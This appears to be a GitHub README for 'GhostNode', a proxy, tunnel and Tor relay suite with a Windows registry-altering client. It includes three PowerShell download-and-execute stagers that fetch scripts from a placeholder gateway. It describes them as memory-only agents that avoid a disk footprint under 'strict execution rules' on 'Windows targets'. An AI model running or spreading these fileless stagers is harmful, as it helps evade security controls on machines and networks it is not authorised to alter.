

# 🛡️ GhostNode - Next-Generation Encrypted Network Tunnel & Relay Gateway

**GhostNode** is a high-performance, developer-focused networking ecosystem designed for secure packet relaying, encrypted tunneling, and local-loopback proxy auditing. It provides developers and network administrators with a unified suite of tools to test application resilience, inspect traffic patterns, and deploy secure remote gateways across varying network topologies.

The project is structured to offer flexible deployment options—ranging from in-browser sandboxes to system-wide daemons and lightweight, memory-efficient headless agents.

---

## 📌 Architecture & Component Layout



### 1. Developer Dashboard & Telemetry (`client` & `lofty-impressions-main`)
*   **Tech Stack**: React, Vite, TypeScript, TailwindCSS, Shadcn UI, and Lucide Icons.
*   **Security & Identity**: User authentication powered by Firebase Auth.
*   **Real-time Telemetries**: Visual monitoring of round-trip time (RTT/Latency), active concurrent tunnels, and backend Tor service connectivity.
*   **Secure Downloader**: A server-side file retrieval pipeline designed to fetch assets through the gateway to analyze and route payloads safely.
*   **Token Provisioning**: Manages the generation of cryptographically secure, temporary access tokens (2-hour TTL) for agent authentication.

### 2. In-Browser Web Proxy Sandbox (`Bare-Mux` / `Ultraviolet`)
*   Combines service worker interceptors with Ultraviolet (UV) and Bare transport servers.
*   Provides an isolated in-browser testing playground where websites can be proxied and inspected inside an iframe, requiring **no local software installation** or administrative privileges.

### 3. System-Wide Desktop Client (`system-proxy-client`)
*   A standalone Node.js daemon compiled into a native binary (`GhostProxy.exe`) via `pkg`.
*   Programmatically adjusts system-wide loopback configurations in the Windows Registry (`HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings`) to direct outbound traffic through a local port (`127.0.0.1:8080`).
*   Tunnels TCP streams over a secure, SSL-encrypted WebSocket connection (`wss://`) back to the central gateway, cleanly restoring original registry parameters upon termination.

### 4. Memory-Efficient Headless Agents (`system-proxy-server`)
For environments with strict execution rules or limited disk writes, GhostNode features inline PowerShell stagers that compile C# socket listeners directly in volatile memory (`Add-Type`), avoiding disk footprint:
*   **V1 (HTTP/S Agent)**: Spawns a local listener on port `8080` to intercept and relay system-wide web traffic via secure WebSockets.
*   **V2 (Multiplexed SOCKS5 Agent)**: Deploys a SOCKS5 proxy server on port `1080` supporting multiplexed TCP connections. It wraps multiple concurrent streams into a single WebSocket connection (Mux), reducing packet overhead and maintaining high throughput for latency-sensitive applications.
*   **V3 (Tor Auditing Agent)**: Integrates with the backend SOCKS5 Tor daemon, routing all local traffic anonymously and facilitating native onion-routing resolution directly within standard web clients.

### 5. Backend Relay Gateway (`server` & `system-proxy-server`)
*   **Bare Transport Core**: Utilizes `@tomphttp/bare-server-node` to handle sandboxed web routing.
*   **WebSocket Multiplexer**: Manages active agent sessions, applies backpressure control to prevent buffer overflows, and responds to socket heartbeats to prevent connection timeouts on CDNs (e.g., Cloudflare).
*   **Tor Onion Router**: Handles runtime bootstrapping of a local Tor Expert Bundle instance and routes requested sockets through port `9050`.

---

## 🔒 Session Identity & Rate-Limiting Mechanics

To prevent unauthorized resource exhaustion, GhostNode enforces a hardware-locked session policy:
1.  Tokens are provisioned on the dashboard with a strict 2-hour expiration window.
2.  When an agent connects, it generates a hardware fingerprint (the client "RG") by hashing the local computer name and active user:
    $$\text{RG} = \text{Hex}(\text{Hostname} + "-" + \text{Username})$$
3.  The backend binds the token to that specific fingerprint in Firestore upon first handshake. Subsequent requests from other machines using the same token are immediately dropped.
4.  An in-memory validation cache prevents database bottlenecks by serving authentication state in microseconds.

---

## 🚀 Setup & Execution Guide

### Prerequisites
*   Node.js (v18 or higher)
*   A Firebase project with Firestore enabled.
*   Tor Expert Bundle (optional, for V3 anonymous routing).

### 1. Relay Gateway Setup
1.  Navigate to `system-proxy-server/` or `server/`.
2.  Download your Firebase service account key from the Firebase Console (*Project Settings -> Service Accounts*) and save it as `serviceAccountKey.json` and `firebase-key.json` respectively.
3.  Install dependencies and start the gateway:
    ```bash
    npm install
    npm start
    ```
4.  *Optional (Tor Daemon)*: Place the Tor executable inside `system-proxy-server/tor/` (`tor.exe` for Windows, `tor` for Linux). The backend will automatically start Tor on port `9050` during initialization.

### 2. React UI Console Setup
1.  Navigate to `lofty-impressions-main/lofty-impressions-main/` or `client/`.
2.  Add your Firebase configuration details in `src/firebase.js`.
3.  Run the Vite development server:
    ```bash
    npm install
    npm run dev
    ```
4.  Configure the environment variable `VITE_BACKEND_URL` to point to your running Relay Gateway.

### 3. Compiling the Client Binary
1.  Navigate to `system-proxy-client/`.
2.  Set your gateway's secure websocket URL (`REMOTE_WS_URL`) in `client.js`.
3.  Build the standalone executable:
    ```bash
    npm install
    npm run build
    ```
4.  Place the generated `GhostProxy.exe` into the React app's `public/` directory for download.

---

## 💻 Headless Agent Deployment (In-Memory PowerShell)

These commands deploy memory-only C# clients on Windows targets, useful for testing remote headless systems:

### V1 — System HTTP/S Agent
```powershell
Invoke-Expression (Invoke-RestMethod -Uri "https://your-gateway.com/stager.ps1")
```

### V2 — SOCKS5 Multiplexed Agent (High-performance / Gaming)
```powershell
Invoke-Expression (Invoke-RestMethod -Uri "https://your-gateway.com/stager-socks.ps1")
```

### V3 — Onion Routing Agent
```powershell
Invoke-Expression (Invoke-RestMethod -Uri "https://your-gateway.com/stager-tor.ps1")
```

---

## 🐳 Containerized Deployment (Docker)

The repository provides a production-ready `Dockerfile` optimized for non-privileged execution (User ID 1000), making it directly compatible with container platforms like **Hugging Face Spaces** or **Render**:

```bash
# Build the container
docker build -t ghostnode-gateway .

# Start the gateway locally on port 7860
docker run -p 7860:7860 -e PORT=7860 ghostnode-gateway
```

---

## 📜 License & Ethical Use

This project is open-source and intended solely for network research, educational demonstrations, developer testing, and private tunnel debugging. Ensure all deployments comply with your local infrastructure guidelines and network usage agreements.
